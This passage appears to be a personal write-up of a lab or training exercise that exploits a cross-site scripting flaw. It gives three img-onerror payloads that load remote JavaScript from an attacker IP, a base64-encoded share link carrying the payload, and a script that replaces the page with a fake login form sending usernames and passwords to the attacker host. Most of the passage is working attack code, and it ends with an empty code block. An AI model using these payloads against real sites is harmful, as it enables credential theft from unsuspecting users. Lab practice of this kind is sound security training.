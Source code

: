 but nothing happens to the webpage
![[Pasted image 20240806155327.png]]
Upon googling, `fetch api` we find out that all fetch does is make a request and attempt to grab it, it does not execute the `.js` file
![[Pasted image 20240806155606.png]]
So now we need to find a way to create a script that grabs and runs the java script. This is done by utilizing java script to make a script element

https://www.codingbeautydev.com/blog/javascript-create-script-element on this webpage `index.js` shows us how to make a java script element that will do this

![[Pasted image 20240805202516.png]]
using `index.js` we can copy this to create the script with the `img` tag to run it with `innerHTML`

My `phishingexercise.js` payload
```js
<img src='x' onerror="const script = document.createElement('script');script.src = 'http://192.168.45.236/phishingexercise.js';script.async = true;document.body.appendChild(script);">
```

My `phish.js` payload
```js
<img src='x' onerror="const script = document.createElement('script');script.src = 'http://192.168.45.236/phish.js';script.async = true;document.body.appendChild(script);">
```

My `chatgptphish.js` payload
```js
<img src='x' onerror="const script = document.createElement('script');script.src = 'http://192.168.45.236/chatgptphish.js';script.async = true;document.body.appendChild(script);">
```

Enter it into the vulnerable field
![[Pasted image 20240806160649.png]]
we get a hit on the `python3 -m http.server`
![[Pasted image 20240806160721.png]]
hit `share` and copy the `csv`
```csv
?csv=IyxVc2VyLGFjdGl2ZQo8aW1nIHNyYz0neCcgb25lcnJvcj0iY29uc3Qgc2NyaXB0ID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgnc2NyaXB0Jyk7c2NyaXB0LnNyYyA9ICdodHRwOi8vMTkyLjE2OC40NS4yMzYvcGhpc2hpbmdleGVyY2lzZS5qcyc7c2NyaXB0LmFzeW5jID0gdHJ1ZTtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHNjcmlwdCk7Ij4gLFNhbWFudGhhLDEK
```
![[Pasted image 20240806160749.png]]


document.getElementsByTagName("html")[0].innerHTML = '<form action="http://192.168.45.236/login" method="GET">' +
    '<div class="container">' +
        '<label for="uname"><b>Username</b></label>' +
        '<input type="text" placeholder="Enter Username" name="uname" required><br>' +
        '<label for="psw"><b>Password</b></label>' +
        '<input type="password" placeholder="Enter Password" name="psw" required><br>' +
        '<button type="submit">Login</button>' +
    '</div>' +
'</form>';
---------------------
### Comparing payloads
##### phishingexercise.js 
- changed `;` to the end and `'` `'` instead of `"` `"` added 2 `<br>`
```html
```